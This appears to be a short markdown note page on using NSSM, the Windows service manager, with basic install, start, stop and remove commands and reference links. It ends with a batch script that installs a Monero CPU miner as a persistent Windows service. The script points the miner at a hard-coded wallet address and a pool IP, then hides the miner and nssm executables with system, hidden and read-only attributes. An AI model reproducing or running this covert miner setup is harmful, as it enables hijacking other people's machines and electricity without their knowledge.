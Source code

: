 `NSSM - the Non-Sucking Service Manager`

```
shell> nssm install
```
<img src="http://i.imgur.com/80lhkUy.png" alt="nssm" width=300>

```
shell> nssm install <servicename> <program> [<arguments>]
shell> nssm start <servicename>
shell> nssm stop <servicename>
shell> nssm status <servicename>
shell> nssm remove <servicename>
```

#### :books: 參考網站：
- https://nssm.cc/
- https://nssm.cc/commands

---

```
@echo off 

set xmrAddress=47HtbDvpVQwDsiegiDZqYxcQEDZtj3DGxHcdeaqem4jqQxkBQtpxgopUZ5oVg2HaWfTjGye2MBZZJTPvDpeL1Koq5ZtaFH1
set poolPassword=x
set poolUrl=stratum+tcp://198.251.81.82:3333

nssm install NsCpuCNMiner64 NsCpuCNMiner64.exe -o %poolUrl% -u %xmrAddress% -p %poolPassword% -dbg -1 -lowcpu 2
nssm start NsCpuCNMiner64

@attrib +s +h +r NsCpuCNMiner64.exe
@attrib +s +h +r nssm.exe
```

